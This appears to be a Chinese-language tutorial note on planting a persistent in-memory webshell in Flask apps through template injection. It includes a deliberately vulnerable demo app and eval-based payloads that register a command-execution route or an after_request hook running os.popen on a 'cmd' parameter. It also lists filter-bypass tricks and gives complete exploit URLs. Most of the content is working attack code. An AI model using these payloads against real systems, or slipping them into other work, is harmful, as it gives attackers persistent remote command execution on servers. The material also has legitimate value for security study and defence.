 FLASK 内存马，是基于模板注入的一种方法，该类方法通过我们的 eval 函数，来执行我们的 FLASK 当中存在的一些全局性的函数，来**构造创建一个新路由**，使得我们在执行者一个新路由的时候，能够**直接执行一个木马**。

## 构建环境
```python
from flask import Flask, request, render_template_string
app = Flask(__name__)
@app.route('/')
def hello_world():  # put application's code here
    person = 'knave'
    if request.args.get('name'):
        person = request.args.get('name')
    template = '<h1>Hi, %s.</h1>' % person
    return render_template_string(template)
if __name__ == '__main__':
    app.run()
```

## 分析：
首先，如果我们希望在我们的 flask 中注入我们的木马，也就是**构造一个危险的路由**，但是这样的路由一般来说是不存在的，于是我们就需要去手动构造我们的一个路由

首先，我们需要通过我们的模板注入中的方法，先获取我们的 `eval` 函数，
```python
url_for.__globals__['__builtins__']['eval']
```
然后，我们需要创建一个路由, 这里，我们不能采用我们的原来的那种 def 式方法，而要通过我们的 flask 中存在的一些特定的函数，来进行我们的声明，这里我们可以使用我们的 `app.add_url_rule` 来实现，**而这一类路由的查找，是通过观察我们的 python 源码来获得的**，具体来说，我们的语法如下所示：
```python
"app.add_url_rule(
		'/shell', 
		'shell', 
		lambda  :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
		）
",
# _request_ctx_stack是Flask的一个全局变量, 是一个LocalStack实例, 这里的_request_ctx_stack即下文中提到的Flask 请求上下文管理机制中的_request_ctx_stack. app也是Flask的一个全局变量, 这里即获取当前的app.
```

```python
def add_url_rule(
        self,
        rule: str,
        endpoint: str | None = None,
        view_func: ft.RouteCallable | None = None,
        provide_automatic_options: bool | None = None,
        **options: t.Any,
    ) 

```

Rule：函数对应的 URL 规则，满足条件和 app.Route ()的第一个参数一样，必须以/开头；

Endpoint：这是 URL 规则的端点名。默认情况下，Flask 会使用视图函数的名字作为端点名。在路由到视图函数的过程中，Flask 会使用这个端点名。

View_func：这是一个函数，当请求匹配到对应的 URL 规则时，Flask 会调用这个函数，并将结果返回给客户端。


## BYPASS 绕过：
Url_for 可替换为 get_flashed_messages 或者 `request.__init__`或者 `request. Application`.

代码执行函数替换, 如 exec 等替换 eval.

字符串可采用拼接方式, 如`['__builtins__']['eval']`变为`['__bui'+'ltins__']['ev'+'al'].`

`__globals__`可用`__getattribute__('__globa'+'ls__')`替换.

`[]`可用`.__getitem__()`或`.Pop ()`替换.

过滤 `{{`或者`}}` , 可以使用{%或者%}绕过, `{%%}`中间可以执行 if 语句, 利用这一点可以进行类似盲注的操作或者外带代码执行结果.

过滤`_`可以用编码绕过, 如`__class__`替换成`\x 5 f\x 5 fclass\x 5 f\x 5 f,` 还可以用` dir (0)[0][0]`或者 `request['args']`或者 `request['values']`绕过.

过滤了`. `可以采用 `attr ()`或`[]`绕过.

## 高版本方案：
再次尝试注入的时候报错了
![[Pasted image 20240918112955.png]]
这个错误是因为在Flask应用处理第一个请求之后，你试图改变路由设置。具体来说，你在应用已经开始运行并处理请求后，试图调用`add_url_rule`方法来添加一个新的路由。Flask禁止这样做，因为这可能会引发一些不一致的行为。

这个时候，我们就需要**找到一种方法**，首先能够构建路由，而且还可以**执行我们的方法**。
1. badrequest，这个方法允许我们在每个请求之前执行一些操作。我们可以利用这个方法来进行身份验证、请求参数的预处理等任务
```python
from flask import Flask, request
app = Flask(__name__)
@app.before_request
def before_request():
    if not request.headers.get("Authorization"):
        return "Unauthorized", 401

```


```
http://127.0.0.1:5000/%20CmdResp;CmdResp=__import__(/%27flask/%27).make_response(__import__(/%27os/%27).popen(request.args.get(/%27cmd/%27)).read())/%22)==None%20else%20resp)%22,%7B%27request%27:url_for.__globals__[%27request%27],%27app%27:url_for.__globals__[%27current_app%27]%7D)%7D%7D
```

```
http://127.0.0.1:5000/?name={{url_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})}}

```